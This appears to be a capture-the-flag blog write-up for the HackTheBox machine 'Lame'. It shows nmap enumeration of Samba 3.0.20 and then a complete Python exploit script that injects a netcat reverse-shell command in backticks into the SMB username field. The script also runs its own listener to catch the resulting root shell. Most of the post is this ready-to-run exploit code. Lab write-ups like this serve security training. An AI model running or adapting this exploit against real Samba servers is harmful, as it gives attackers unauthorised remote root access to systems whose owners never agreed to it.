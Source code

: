 ```yaml
---
title: "HackTheBox - Lame"
categories: [HackTheBox, Easy]
tags: [Linux,Easy,OSCP]
mermaid: true
image: https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-10-HackTheBox-Lame/2021-12-10-HackTheBox-Lame%2002:04:47.png

---
```



Lame is a easy box from hackthebox. The exploration o Samba 3.0.20 I did totally manually with a python script. It's on the body of the post.

Hope you enjoy this write-up!

# Diagram

```mermaid
graph TD
    A[Enumeration] -->|Nmap| B(Port 445)
    B --> C[Samba 3.0.20]
    C --> |Script Python| D[Root Shell]
```

# Enumeration

First step is to enumerate the box. For this we'll use `nmap`

```sh
nmap -sV -sC -Pn 10.10.10.3
```

> -sV - Services running on the ports

> -sC - Run some standart scripts

> -Pn - Consider the host alive

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-10-HackTheBox-Lame/2021-12-10-HackTheBox-Lame%2002:10:26.png)

## Port 445

```
445/tcp open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
```

We see on port 445 the smb version 3.0.20, and search for an exploit for this match version and we found one which works just on metasploit

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-10-HackTheBox-Lame/2021-12-10-HackTheBox-Lame%2002:16:22.png)

Which is this [ExploitDB](https://www.exploit-db.com/exploits/16320)

So, I hate to use metasploit, I'll exploit this vuln manually.

# Auto Reverse Shell

We will use our python skeleton to do that

```py
#!/usr/bin/python3

import argparse
import requests
import sys

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}
r = requests.session()

'''Here come the Functions'''

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    args = parser.parse_args()
    
    '''Here we call the functions'''
    
if __name__ == '__main__':
    main()
```

Here it is

![](https://0x4rt3mis.github.io/assets/img/hackthebox/2021-12-10-HackTheBox-Lame/2021-12-10-HackTheBox-Lame%2002:32:20.png)

```py
#!/usr/bin/python3
# Author: 0x4rt3mis
# HackTheBox - Lame - Auto Reverse Shell

import argparse
import sys
from smb.SMBConnection import SMBConnection
import socket, telnetlib
from threading import Thread

'''Setting up something important'''
proxies = {"http": "http://127.0.0.1:8080", "https": "http://127.0.0.1:8080"}

'''Here come the Functions'''
# Set the handler
def handler(lport,target):
    print("[+] Starting handler on %s [+]" %lport)
    t = telnetlib.Telnet()
    s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.bind(('0.0.0.0',lport))
    s.listen(1)
    conn, addr = s.accept()
    print("[+] Connection from %s [+]" %target)
    t.sock = conn
    print("[+] Shell'd [+]")
    t.interact()

# Function to trigger it
def TriggerPayload(rhost,rport,lhost,lport):
    print("[+] Let's trigger the payload !! [+]")
    payload = "nc -e /bin/bash %s %s" %(lhost,lport)
    user = "`" + payload + "`"
    conn = SMBConnection(user, "0x4rt3mis", "0x4rt3mis", "0x4rt3mis", use_ntlm_v2=False)
    print("[+] Sending it to the server ! [+]")
    print("[+] Succeess !! [+]")
    conn.connect(rhost, int(rport))

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localip', help='Local ip address or hostname', required=True)
    parser.add_argument('-lp', '--localport', help='Local port', required=True)
    parser.add_argument('-rp', '--remoteport', help='Target port', required=True)
    args = parser.parse_args()

    rhost = args.target
    lhost = args.localip
    lport = args.localport
    rport = args.remoteport

    '''Here we call the functions'''
    # Set up the handler
    thr = Thread(target=handler,args=(int(lport),rhost))
    thr.start()
    # Get the reverse
    TriggerPayload(rhost,rport,lhost,lport)

if __name__ == '__main__':
    main()
```

